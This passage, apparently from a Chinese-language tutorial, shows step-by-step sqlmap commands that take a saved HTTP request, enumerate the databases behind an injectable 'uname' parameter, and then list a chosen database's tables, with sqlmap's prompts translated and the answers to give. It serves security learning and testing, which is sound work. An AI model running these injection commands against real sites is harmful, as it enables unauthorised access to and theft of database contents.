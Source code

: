 ![](./assets/20250210/e19465f5dfd9404e8f5d76ee64ce6e3c.png)

**2.列数据库:**

sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname --dbs

也可以使用  *  指定需要测试的参数

**it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]**
它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n]  输入"Y"

**for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]**
对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？ [Y/n] 输入"N"

**POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]**
POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N]  输入"Y"

### 3.猜表

选择一个数据库，比如选test

sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname -D test --tables
